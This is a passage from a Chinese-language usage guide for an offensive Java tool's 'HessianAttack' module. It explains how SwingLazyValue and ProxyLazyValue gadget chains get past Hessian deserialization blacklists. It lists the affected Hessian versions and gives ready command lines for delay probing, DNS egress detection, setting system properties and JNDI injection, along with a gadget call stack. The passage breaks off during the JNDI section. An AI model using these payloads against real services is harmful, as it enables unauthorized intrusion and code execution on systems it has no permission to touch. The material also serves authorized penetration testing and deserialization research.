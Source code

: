 描述：java.lang.Thread的静态方法sleep可以触发延迟效果，虽然java.lang.Thread的黑名单中，但是SwingLazyValue和ProxyLazyValue的createValue方法反射机制来触发所以不受这个影响。但是因为sleep方法接受的参数是long类型，hessian无法传递这种类型，所以也是无法构造该payload。但还是可以用LazyValue+MethodUtil来触发Thread Sleep。

工具：工具中虽然写了，但是无法利用、、

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:ThreadSleep:5" -hessianType "Hessian2"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:ThreadSleep:5" -hessianType "Hessian2"
```

#### InetAddress DNS出网检测

描述：通过`java.net.InetAddress`​的getByName方法来触发DNS请求以此来探测目标环境是否DNS出网

限制：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

工具：

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:InetAddress:success.dns.cn" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:InetAddress:success.dns.cn" -hessianType "Hessian2"
```

#### SetProperty 设置系统属性

描述：虽然`java.lang.System`​处于caucho hessian最新版的黑名单中，但是JDK系统属性设置是由SwingLazyValue和ProxyLazyValue的createValue方法反射机制来触发所以不受这个影响

限制：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

工具：

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:SetProperty:custom.property:success" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:SetProperty:custom.property:success" -hessianType "Hessian2"
```

#### jndi jndi注入

描述：虽然`javax.naming.x`​处于caucho hessian最新版的黑名单中，但是JNDI注入是由SwingLazyValue和ProxyLazyValue的createValue方法反射机制来触发所以不受这个影响，调用栈如下：

```java
HashMap#readObject
 -HashMap#put
  -HashMap#equals
	-HashTable#get()
	-UIDefaults#get(Object key)
	  -UIDefaults#getFromHashtable(final Object key)
		-UIDefaults$LazyValue#createValue(UIDefaults var1)
		-SwingLazyValue#createValue(UIDefaults var1)
		-ProxyLazyValue#createValue(UIDefaults var1)
```
